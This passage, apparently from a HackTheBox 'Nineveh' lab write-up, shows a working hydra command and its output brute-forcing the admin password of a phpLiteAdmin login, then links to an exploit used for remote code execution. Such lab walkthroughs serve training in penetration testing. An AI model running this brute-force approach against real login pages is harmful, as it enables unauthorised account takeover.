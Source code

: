 `phpLiteAdmin is a web-based SQLite database admin tool written in PHP with support for SQLite2 and SQLite3.`

## PHPLITEADMIN LOGIN

Since in the previous form we had to bruteforce the password I thought maybe the same was to be done here. So I used hydra to bruteforce it.

```bash 
┌──(kali㉿kali)-[~/Downloads/hackthebox/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -t 64 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-14 07:54:59
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-14 07:55:51
```

![](https://github.com/Leo-2807/Writeups/blob/main/images/nineveh8.png)

## EXPLOIT

I used this [exploit](https://www.exploit-db.com/exploits/24044) to get rce
